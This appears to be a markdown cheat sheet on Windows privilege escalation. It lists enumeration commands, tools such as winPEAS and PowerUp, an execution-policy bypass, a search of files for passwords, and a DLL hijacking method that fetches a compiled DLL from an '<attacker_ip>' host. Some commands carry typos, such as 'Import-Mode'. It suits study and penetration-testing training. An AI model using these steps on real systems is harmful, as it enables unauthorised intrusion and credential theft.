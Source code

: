 # Methodology

1. Enumerate the current user's privileges and resources it can access

2. If the antivirus software allows it, run an automated enumeration script such as winPEAS or PowerUp.ps1

3. If the initial enumeration and scripts do not uncover an obvious strategy, try a different approach


---

# Enumeration

## Tools

1. WinPEAS -> enumerate the target system to uncover privilege escalation paths. (Windows Defender detects and disables WinPEAS

```powershell
$ winpeas.exe > result.txt
```

2. PowerUp -> PowerShell script that searches common privilege esacaltion on the target system. **Need to bypass the execution policy restrictions.**

```powershell
$ powershell.exe -nop -exec bypass
```

```powershell
$ Import-Mode PowerUp.ps1
$ Invoke-AllChecks
```

3. Windows Exploit Suggester -> Some exploit scripts will require you to upload them to the target system and run them there.

```powershell
# Update db
$ windows-exploit-suggester.py –update
```

```powershell
# Usage
$ windows-exploit-suggester.py --database <yyyy-mm-dd>-mssb.xls --systeminfo result.txt
```

4. Metasploit -> Some module can list vulnerabilities

```bash
multi/recon/local_exploit_suggester
```

## User enumeration

```powershell
# List current user's privileges
$ whoami /priv

# List users
$ net users

# Details about user
$ net user <user>
$ net user Administrator

# User(s) logged in simultaneously
$ qwinsta
$ query session

# List locals groups
$ net localgroup

# Details about group
$ net localgroup <groupname>
$ net localgroup Adlinistrators
```

## System information

```powershell
# Get informationsss
$ systeminfo

# OS Version
$ systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

# Hostanme 
$ hostname
```

## Search files

```powershell
# Find files with this pattern : password and .txt extension
findstr /si password *.txt

# Good extensions are : .txt, .xml, .ini, .config, .xls
```

## Patch level

```powershell
# Get patch applied on the system
$ wmic qfe get Caption,Description,HotFixID,InstalledOn
```

## Network connections

```powershell
# List all listened ports
$ netstat -ano
```

## Scheduled tasks

```powershell
# List all scheduled tasks
$ schtasks /query /fo LIST /v
```

## Drivers and applications

```powershell
# List all installed drivers
$ driverquery

# Dump information about installed software
$ wmic product
$ wmic product get name,version,vendor

# BETTER WAY
$ wmic service list brief

# Only running
$ wmic service list brief | findstr  "Running"

# Get more information about service
$ sc qc <service>
$ sc qc RemoteMouseService
```

## Antivirus

```powershell
# Check Windows Defender status
$ sc query windefend
$ Get-MpComputerStatus
$ (Get-Service windefend).Status
$ Get-Service | where {$_.DisplayName -Like "*Defender*"} | Select Status.DisplayName

# Check services (find any antivirus in this list)
$ sc queryex type=service
```

---

# Exploitation

## DLL Hijacking

**Conditions :**

1. An application that uses one or more DLL files.
2. A way to manipulate these DLL files.

If SafeDllSafeMode is enabled, the search order is as follow :

1. The directory from which the application loaded
2. The system diretory. Use ```powershell GetSystemDirectory ``` function to get the path of this directory.
3. The 16-bit directory.
4. The Windows directory. Use ```powershell GetWindowsDirectory ``` function to get the path of this directory.
5. The current directory.
6. The directories listed in the PATH environment variable.

If SafeDllSearchMode is disabledn the search order is as follow :

1. The directory from which the application loaded
2. The current directory
3. The system diretory. Use ```powershell GetSystemDirectory ``` function to get the path of this directory.
4. The 16-bit directory.
5. The Windows directory. Use ```powershell GetWindowsDirectory ``` function to get the path of this directory.
6. The directories listed in the PATH environment variable.

If the current user permit to write to any folder in the search order, we can have a possible DLL hijacking vulnerability.

**Finding DLL Hijacking vulnerabilities**

Tool : Process Monitor (ProcMon)

**Generate DLL file**

```bash
# Install mingw compiler
$ apt install gcc-mingw-w64-x86-64

# Generate DLL file
$ x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll

# Download DLL file on the target
$ wget -O <file_name>.dll <attacker_ip>:<port>/<file_name>.dll
```

```powershell
# Stop and start dllsvc
$ sc stop dllsvc & sc start dllsvc
```


